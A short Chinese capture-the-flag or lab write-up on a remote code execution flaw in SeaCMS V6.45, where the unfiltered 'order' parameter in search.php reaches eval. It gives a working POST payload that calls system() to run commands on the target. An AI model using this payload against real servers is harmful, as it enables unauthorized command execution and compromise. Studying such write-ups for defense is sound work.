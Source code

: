 # 海洋 cms V6.45版本代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar) 

## 概述

该漏洞成因在于 search.php 没有对用户输入内容进行过滤，导致攻击者提交的 order 参数可进入 parseIf 函数中执行 eval。

## 复现

1、首先打开靶场。

![1](./1.png)

2、输入任意内容搜索并抓包。

![2](./2.png)

3、利用 POC 拿到 Flag

```
searchtype=5&order=}{end if}{if:1)$_POST[func]($_POST[cmd]);if(1}{end if}&func=system&cmd=ls /tmp
```

![3](./3.png)
